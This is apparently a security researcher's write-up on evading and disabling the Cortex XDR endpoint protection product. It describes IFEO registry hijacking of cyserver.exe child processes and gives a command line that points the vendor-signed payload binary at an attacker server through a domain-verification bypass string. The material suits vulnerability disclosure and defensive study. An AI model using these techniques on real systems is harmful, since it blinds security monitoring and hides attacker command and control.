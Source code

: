 # Cortex XDR tampering module bypass and other evasion tricks.

## Introduction

### A bit about Cortex XDR 

Cortex XDR is an endpoint detection and response (EDR) software. Most of enterprise grade EDR software is managed from cloud by administrator, therefore the users or even local administrators shouldn't be able to disable or disrupt the work of such process. That is possible thanks to Protected Process Light (PPL) technology. More details about PPL can read on Microsoft website. This article will describe the tricks that I have used to evase or completely disable Cortex XDR.

### Cortex XDR on endpoint

## Exploiting vulns :D

### IFEO manipulation - complete loss of protection

IFEO is short for "Image File Execution Options". According to MITRE and Microsoft documentation it's main purpose is to facilitate debugging process. Adversary, can use it also for malicious purposes such as establishing persistence and impairing defenses. The attack is performed through manipulation of the "Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\image File Execution Options\cyserver.exe" IFEO registry. Afterwards, reboot or service restart is required.

- Hijack execution flow – Local admin can manipulate IFEO keys for any Paloalto image that is being executed as child process of “cyserver.exe” to launch custom application. When this application is launched under “cyserver.exe”, it is neither prevented nor monitored against any malicious activity. The attack requires reboot or administrative action from the cloud (initializing the live terminal or launching custom script).

### IFEO manipulation - unmonitored process



### Hidden command & control thanks to Paloalto signed executable

 "cortex-xdr-payload.exe" live terminal feature can be used to contact malicious attacker server, when run with command line "cortex-xdr-payload.exe -type 1 -server "randompage.com/?.paloaltonetworks.com" -port 443 -token 123". The "randompage.com/?.paloaltonetworks.com" is able to bypass the domain verification.